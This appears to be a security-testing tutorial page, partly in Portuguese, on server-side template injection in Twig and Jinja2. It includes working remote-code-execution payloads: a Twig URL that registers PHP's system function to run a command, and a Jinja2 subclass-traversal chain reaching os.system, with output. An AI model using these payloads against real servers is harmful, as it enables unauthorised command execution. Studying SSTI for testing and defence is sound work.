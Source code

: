 # SSTI (Server-Side Template Injection)

Server-side template injection (SSTI) happens when an attacker can insert malicious code using the template engine’s native syntax, which then gets executed on the server.

Template engines are meant to create web pages by merging static templates with dynamic data. SSTI occurs when user input is directly embedded into a template instead of being treated as data. This gives attackers the ability to inject arbitrary template commands, potentially letting them manipulate the engine and even gain full control of the server. Unlike client-side template injection, SSTI executes on the server, making it significantly more dangerous.

By default, many template engines enable auto-escaping or HTML-escaping prior to rendering. This can make exploitation more challenging, due to the strict quote filtering applied when rendering string-based data. Without string-based data in some form, RCE is significantly harder to achieve on certain template engines,  being a notable example.

## Identify

Once you have detected the template injection potential, the next step is to identify the template engine. Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

A common way of doing this is to inject arbitrary mathematical operations using syntax from different template engines. You can then observe whether they are successfully evaluated. To help with this process, you can use a decision tree similar to the following:

<figure><img src="../.gitbook/assets/ssti-1.png" alt=""><figcaption></figcaption></figure>

You should be aware that the same payload can sometimes return a successful response in more than one template language. For example, the payload `{{7*'7'}}` returns `49` in Twig and `7777777` in Jinja2. Therefore, it is important not to jump to conclusions based on a single successful response.

## Filters

Dentro do templates, há filtros que servem para executar determinada funções. Por exemplo `{{"test"|upper}}` irá colocar a string `test` em maiúsculo. Podemos dar uma olhada na documentação do [Twig](https://twig.symfony.com/doc/3.x/) e ver que existem várias funções e filtros.

## Twig Template

E se pudessemos criar nossa própria função e adicionar ele dentro do Twig? É possível registrar uma função de callback a partir do sistema de template do Twig. Vamos ver como conseguimos fazer isso.

Antes precisamos saber que o Twig tem as variáveis e funções globais que ficam num local chamado `env` . Com isso, precisamos fazer que a variável que estamos utilizando seja retorando para o `env` usando o self.

Vamos supor que a seguinte URL esteja retornando o que é esperado retornar comprovado que é vulnerável a SSTI.

```
http://10.10.0.7/?email={{7*7}}
```

Agora podemos registrar uma função `system` do php e em seguida chamar ela passando como parâmetro o comado do sistema operacional `id`.

{% code overflow="wrap" fullWidth="false" %}
```
http://10.10.0.7/?email={{_self.env.registerUndefinedFucntionCallback('system')}}{{_self.env.getFunction('id')}}
```
{% endcode %}

## Jinja2 Template

```
>>> string = "1337"

>>> string.__class__.mro()
[<class 'str'>, <class 'object'>]

>>> string.__class__.mro()[1]
<class 'object'>

>> string.__class__.mro()[1].__subclasses__()
[<class 'type'>, <class 'async_generator'>, <class 'bytearray_iterator'>, <class 'bytearray'>...
```

img jinja2

```
>>> string.__class__.mro()[1].__subclasses__()[155]
<class 'os._wrap_close'>

>> string.__class__.mro()[1].__subclasses__()[155].__init__.__globals__
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions ...

>>> string.__class__.mro()[1].__subclasses__()[155].__init__.__globals__['system']('id')
uid=1000(nizyuu) gid=1000(nizyuu) groups=1000(nizyuu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),114(lpadmin),984(docker)
0
```

https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-server-side-template-injection-ssti

https://www.yeswehack.com/learn-bug-bounty/server-side-template-injection-exploitation
